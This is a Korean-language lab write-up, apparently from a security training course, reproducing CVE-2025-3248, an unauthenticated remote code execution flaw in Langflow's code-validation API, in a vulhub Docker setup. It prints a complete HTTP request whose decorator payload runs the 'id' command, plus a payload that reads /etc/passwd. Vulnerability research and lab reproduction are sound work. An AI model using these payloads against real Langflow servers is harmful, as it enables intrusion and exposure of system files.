

# Langflow validate/code API Pre-Auth 원격 코드 실행 (CVE-2025-3248) 

> 화이트햇 스쿨 3기 29반 - [장인영 (@inyeongjang)](https://github.com/inyeongjang)

<br/>

## 개요

**Langflow**

Langflow는 대규모 언어 모델(LLM)과 다양한 데이터 소스를 활용하여 AI 애플리케이션을 시각적으로 설계하고 구축할 수 있는 low-code 플랫폼입니다. Pyhton 기반으로 개발되었으며, 특정 모델, API, 데이터베이스에 구애받지 않고 유연하게 사용할 수 있습니다. 

**CVE-2025-3248**

Langflow 1.3.0 버전 미만에는, 인증 없이 원격 코드 실행(RCE)이 가능한 심각한 취약점 CVE-2025-3248이 존재합니다. 

해당 취약점은 LLM이 생성한 코드를 검증하는 API `/api/v1/validate/code`에서 발생합니다. 

사용자가 제출한 Python 코드를 ast 모듈로 파싱하고, exec를 통해 함수 정의를 실행하는데, Python에서는 함수 정의 시 데코레이터(decorator) 와 기본 인자(default arguments) 도 함께 실행됩니다. 이를 악용하면 악성 코드를 삽입할 수 있으며, 결과적으로 공격자가 서버 사용자 권한으로 임의의 코드를 실행할 수 있게 됩니다. 

본 보고서에서는 Docker 기반으로 CVE-2025-3248을 검증하는 환경을 구축하고 실제 공격 과정을 재현합니다. 

<br/>

## 환경 구축 (Environment Setup)

1. 취약한 Langflow 1.2.0 버전을 Docker로 실행합니다.

   ```
   docker compose up -d
   ```
   
2. 서버가 시작되면, 아래 주소로 웹 인터페이스에 접속할 수 있습니다.

   ```
   http://your-ip:7860 
   ```
   

4. 기본 로그인 계정으로 로그인합니다.

   아이디: `administrator`

   비밀번호: `vulhub`

   

<br/>

## 취약점 재현 (Vulnerability Reproduction)

프록시 도구를 이용해 `/api/v1/validate/code` 엔드포인트에 악성 Python 함수 정의를 포함한 POST 요청을 전송합니다. 

다음은 서버에서 id 명령어를 실행하는 공격 페이로드입니다. 

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```

요청이 성공하면, 서버 측에서 id 명령이 실행되고 결과가 노출됩니다. 이러한 방식으로 임의 명령어 실행이 가능함을 확인할 수 있습니다. 


**추가 공격 예시**

다음은 서버의 /etc/passwd 파일 내용을 읽어 메시지로 출력하는 페이로드입니다. 

```
{
  "code": "@exec(\"raise Exception(open('/etc/passwd').read())\")\ndef foo():\n  pass"
}
```


<br/>

## 참고 자료 (References) 

https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/

https://github.com/langflow-ai/langflow/releases/tag/1.3.0
langflow-ai/langflow#6911

https://wikidocs.net/book/16986 

https://github.com/vulhub/vulhub/tree/master/langflow/CVE-2025-3248

https://hackyboiz.github.io/2025/04/13/mungsul/2025-04-12/


